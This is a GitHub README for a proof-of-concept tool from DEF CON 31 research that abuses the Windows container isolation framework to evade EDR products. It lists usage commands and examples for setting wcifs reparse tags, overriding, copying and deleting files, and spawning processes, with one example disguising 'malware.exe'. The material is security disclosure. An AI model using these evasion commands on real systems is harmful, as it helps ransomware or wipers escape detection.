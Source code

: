 # ContainYourself
A POC of the ContainYourself research presented in DEF CON 31, which abuses the Windows containers framework to bypass EDRs.

Slides:
https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Daniel%20Avinoam%20-%20Contain%20Yourself%20Staying%20Undetected%20Using%20the%20Windows%20Container%20Isolation%20Framework.pdf

## Installation
Make sure to clone the repository and its submodules:

    git clone --recursive git@github.com:deepinstinct/ContainYourself.git

## Usage

    Usage: ContainYourselfPoc.exe [--command]
    
    Valid commands:
            --set-reparse [override|link] - Set wcifs reparse tag
            --remove-reparse [override|link] - Remove wcifs reparse tag
            --override-file - override a file using wcifs
            --copy-file - Copy a file using wcifs
            --delete-file - Delete a file using wcifs
            --create-process - Create process from an image file path using NtCreateUserProcess
    Commands arguments:
            --source-file  - operation full source file (relative to volume only when using with [--copy-file])
            --target-file  - operation target file (relative to volume)
            --source-volume  - operation source volume, without a trailing backslash (default is C:)
            --target-volume  - operation target volume, without a trailing backslash (default is C:)
    
    Examples:
            ContainYourselfPoc.exe --set-reparse override --source-file C:\temp\calc.exe --target-file \temp\malware.exe
            ContainYourselfPoc.exe --remove-reparse --source-file C:\temp\calc.exe
            ContainYourselfPoc.exe --override-file --source-file C:\temp\calc.exe
            ContainYourselfPoc.exe --copy-file --source-file temp\document.docx --target-file Documents\document.docx --target-volume E:
            ContainYourselfPoc.exe --delete-file --source-file C:\temp\document.docx

## Disclaimer

Every security product has the capability to incorporate its unique algorithm designed to counter ransomware and wiper threats. It cannot be guaranteed that this proof-of-concept will successfully circumvent every existing protection solution available.

## Credits

* [Daniel Avinoam](https://twitter.com/daniel_avinoam)

